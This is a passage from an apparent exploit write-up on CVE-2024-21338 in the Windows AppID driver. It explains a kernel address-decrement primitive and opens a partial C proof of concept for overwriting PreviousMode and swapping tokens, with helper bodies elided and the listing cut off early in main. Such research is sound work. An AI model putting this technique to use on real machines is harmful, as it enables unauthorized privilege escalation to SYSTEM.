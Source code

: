 ![image.png](en/image%2012.png)

Inside `ExpProfileDelete`, the rcx at the time of the `ObfDereferenceObjectWithTag` macro call comes out as `0x414141414141414141`. We can finally decrement the address we want!

There may be more functions that satisfy our conditions, even if they are not `ExpProfileDelete`. However, the more complex the logic of the function, the more likely it is to crash and execute code other than our intended behavior, so it's probably a good idea to find a relatively simple function to target.

Below is the final proof-of-concept code that modifies PreviousMode and performs Token Swapping with CVE-2024-21338 vulnerability

```c
#include <stdio.h>
#include "defines.h"

#define STATUS_INFO_LENGTH_MISMATCH 0xc0000004
#define DEVICE_NAME "\\\\?\\AppID"

// IOCTL 0x22A018
typedef struct {
	PVOID arg1;
	PVOID objptr;
	PVOID cfgptr;
	PVOID unknown;
} INPUT_BUFFER;

_NtQuerySystemInformation pNtQuerySystemInformation;
_NtFsControlFile pNtFsControlFile;
_NtWriteVirtualMemory pNtWriteVirtualMemory;
_NtReadVirtualMemory pNtReadVIrtualMemory;
_NtDeviceIoControlFile pNtDeviceIoControlFile;

void GetNtFunction() {...}
PVOID GetImageBase(const char* ModuleName) {...}
PVOID GetFILE_OBJECT_Address(){...}
PVOID GetObj(PULONGLONG objptr, ULONG pid, HANDLE handle){...}

int main() {
	PVOID KTHREAD = NULL;
	PVOID SYSTEM_EPROCESS = NULL;
	PVOID EPROCESS = NULL;
	PVOID PreviousMode = NULL;
	PVOID NTOSKRNL_BASE = NULL;

	ULONG dwbytes = 0;
	GetNtFunction();

	DWORD pid = GetCurrentProcessId();

	HANDLE hThread = OpenThread(THREAD_QUERY_INFORMATION, TRUE, GetCurrentThreadId());
```